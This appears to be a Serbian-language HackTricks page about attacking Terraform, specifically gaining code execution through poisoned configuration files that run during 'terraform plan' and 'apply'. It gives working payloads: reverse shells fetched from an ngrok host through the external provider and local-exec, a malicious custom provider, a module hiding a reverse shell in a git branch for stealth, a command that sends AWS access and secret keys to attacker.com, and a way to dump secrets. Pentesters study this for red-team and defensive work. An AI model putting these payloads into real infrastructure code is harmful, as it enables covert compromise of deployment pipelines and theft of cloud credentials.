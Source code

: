 # Bezbednost Terraforma

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** me na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

[Iz dokumentacije: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform je alat za **infrastrukturu kao kod** koji vam omogućava da definišete **oblak i lokalne resurse** u čitljivim konfiguracionim fajlovima koje možete verzionisati, ponovo koristiti i deliti. Zatim možete koristiti dosledan radni tok za obezbeđivanje i upravljanje celokupnom infrastrukturom tokom njenog životnog ciklusa. Terraform može upravljati niskim nivoima komponenti kao što su računarstvo, skladištenje i mrežni resursi, kao i visokim nivoima komponenti kao što su DNS unosi i SaaS funkcionalnosti.

### Kako radi Terraform?

Terraform kreira i upravlja resursima na cloud platformama i drugim uslugama putem njihovih programskih interfejsa (API-ja). Provajderi omogućavaju Terraform-u da radi sa gotovo bilo kojom platformom ili uslugom sa dostupnim API-jem.

![](<../.gitbook/assets/image (33).png>)

HashiCorp i Terraform zajednica su već napisali **više od 1700 provajdera** za upravljanje hiljadama različitih vrsta resursa i usluga, a ovaj broj nastavlja da raste. Sve javno dostupne provajdere možete pronaći na [Terraform registru](https://registry.terraform.io/), uključujući Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog i mnoge druge.

Osnovni radni tok Terraforma sastoji se od tri faze:

* **Pisanje:** Definišete resurse koji mogu biti na više cloud provajdera i usluga. Na primer, možete kreirati konfiguraciju za implementaciju aplikacije na virtuelnim mašinama u Virtual Private Cloud (VPC) mreži sa sigurnosnim grupama i balanserom opterećenja.
* **Planiranje:** Terraform kreira plan izvršenja koji opisuje infrastrukturu koju će kreirati, ažurirati ili uništiti na osnovu postojeće infrastrukture i vaše konfiguracije.
* **Primena:** Nakon odobrenja, Terraform izvršava predložene operacije u ispravnom redosledu, poštujući zavisnosti resursa. Na primer, ako ažurirate osobine VPC-a i promenite broj virtuelnih mašina u tom VPC-u, Terraform će prvo ponovo kreirati VPC pre skaliranja virtuelnih mašina.

![](<../.gitbook/assets/image (81).png>)

## Terraform Laboratorija

Samo instalirajte Terraform na vašem računaru.

Ovde imate [vodič](https://learn.hashicorp.com/tutorials/terraform/install-cli) i ovde imate [najbolji način za preuzimanje Terraforma](https://www.terraform.io/downloads).

## RCE u Terraformu

Terraform **nema platformu koja izlaže veb stranicu ili mrežnu uslugu** koju možemo nabrojati, stoga je jedini način da kompromitujemo Terraform da **budemo u mogućnosti da dodamo/izmenimo konfiguracione fajlove Terraforma**.

Međutim, Terraform je **veoma osetljiva komponenta** za kompromitovanje jer će imati **privilegovan pristup** različitim lokacijama kako bi pravilno funkcionisala.

Glavni način za napadača da bude u mogućnosti da kompromituje sistem na kojem se izvršava Terraform je da **kompromituje repozitorijum koji čuva konfiguracije Terraforma**, jer će u nekom trenutku biti **interpretirane**.

Zapravo, postoje rešenja koja **automatski izvršavaju terraform plan/apply nakon što je napravljen PR**, kao što je **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Ako uspete da kompromitujete Terraform fajl, postoje različiti načini na koje možete izvršiti RCE kada neko izvrši `terraform plan` ili `terraform apply`.

### Terraform plan

Terraform plan je **najčešće korišćena komanda** u Terraformu i razvijači/rešenja koja koriste Terraform je često pozivaju, stoga je **najlakši način za dobijanje RCE** da se osigurate da otrovate Terraform konfiguracioni fajl koji će izvršiti proizvoljne komande u `terraform plan`.

#### Korišćenje spoljnog provajdera

Terraform nudi [`external` provajder](https://registry.terraform.io/providers/hashicorp/external/latest/docs) koji omogućava interfejs između Terraforma i spoljnih programa. Možete koristiti `external` izvor podataka za pokretanje proizvoljnog koda tokom `plan` faze.

Ubacivanje nečega poput sledećeg u Terraform konfiguracioni fajl će izvršiti reverznu shell komandu prilikom izvršavanja `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Korišćenje prilagođenog provajdera

Napadač bi mogao poslati [prilagođeni provajder](https://learn.hashicorp.com/tutorials/terraform/provider-setup) na [Terraform Registry](https://registry.terraform.io/) a zatim ga dodati u Terraform kod na grani sa novom funkcionalnošću ([primer sa ovog mesta](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Provajder se preuzima u `init` i izvršava zlonamerni kod prilikom izvršavanja `plan` komande.

Primer možete pronaći na [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Korišćenje spoljnog referentnog objekta

Obe navedene opcije su korisne, ali nisu veoma prikrivene (druga opcija je prikrivenija, ali kompleksnija od prve). Možete izvesti ovaj napad čak i na **prikriveniji način**, prateći ove sugestije:

* Umesto da direktno dodate reverzni shell u terraform fajl, možete **učitati spoljni resurs** koji sadrži reverzni shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Rev shell kod možete pronaći na [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* U spoljnom resursu koristite **ref** opciju da biste sakrili **terraform rev shell kod u grani** unutar repozitorijuma, nešto poput: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply će biti izvršen kako bi primenio sve promene, takođe ga možete zloupotrebiti da biste dobili RCE ubacivanjem **zlonamernog Terraform fajla sa** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Samo se pobrinite da se neki payload kao što su sledeći nalazi u fajlu `main.tf`.
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Pratite **predloge iz prethodne tehnike** kako biste izveli ovaj napad na **diskretniji način koristeći spoljne reference**.

## Dumpovanje tajni

Možete **izvući vrednosti tajni koje koristi terraform** pokretanjem `terraform apply` dodavanjem nečega poput sledećeg u terraform fajl:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Alati za reviziju

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec koristi statičku analizu vašeg terraform koda kako bi otkrio potencijalne konfiguracijske greške.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan je statički analizator koda za infrastrukturu kao kod.

## Reference

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite videti **vašu kompaniju oglašenu na HackTricks-u** ili **preuzeti HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
